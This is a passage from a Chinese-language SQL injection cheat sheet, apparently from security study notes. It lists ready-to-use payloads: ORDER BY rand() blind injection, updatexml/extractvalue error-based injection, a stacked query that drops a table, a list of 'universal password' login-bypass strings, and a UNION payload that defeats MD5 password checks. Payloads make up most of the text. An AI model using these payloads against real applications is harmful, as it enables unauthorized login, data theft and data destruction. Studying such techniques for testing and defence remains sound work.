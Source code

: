 可以看到当rand()为true和false时，排序结果是不同的，所以就可以使用rand()函数构造表达式进行盲注了.
    
```sql
order by rand(ascii(mid((select database()),1,1))>96)
```
    
###### 基于报错

*updatexml*
```sql
select * from ha order by updatexml(1,if(1=1,1,user()),1);#查询正常
select * from ha order by updatexml(1,if(1=2,1,user()),1);#查询报错
```

*extractvalue*
```sql
select * from ha order by extractvalue(1,if(1=1,1,user()));#查询正常
select * from ha order by extractvalue(1,if(1=2,1,user()));#查询报错
```

 3. 堆叠注入(Stacking Queries)

一句代码之中执行多个查询语句，这在每一个注入点都非常有用，尤其是使用SQL Server后端的应用

```sql
; SELECT * FROM members; DROP members --
```

支持堆叠查询的语言/数据库
绿色：支持，暗灰色：不支持，浅灰色：未知
![堆叠注入情况](http://drops.xmd5.com/full/7eba77f1e9332de0158f5a1ae5de6ca3a1526df1.jpg)


4. 万能密码

    - admin' --   #'
    - admin' #    #'
    - admin'/*	  #'
    - ' or 1=1--  #'
    - ' or 1=1#   #'
    - ' or 1=1/*  #'
    - ') or '1'='1--	#'
    - ') or ('1'='1--	#'	

###### 绕过检查MD5哈希的登陆界面

&emsp;&emsp;如果应用是先通过用户名，读取密码的MD5，然后和你提供的密码的MD5进行比较，那么你就需要一些额外的技巧才能绕过验证。你可以把个已知明文的MD5哈希和它的明文一起提交，使得程序不使用从数据库中读取的哈希，而使用你提供的哈希进行比较。
绕过MD5哈希检查的例子(MSP)

```sql
用户名：admin

密码：1234 ' AND 1=0 UNION ALL SELECT 'admin','81dc9bdb52d04dc20036dbd8313ed055
// 其中81dc9bdb52d04dc20036dbd8313ed055 = MD5(1234)
```

5. 一些Bypass
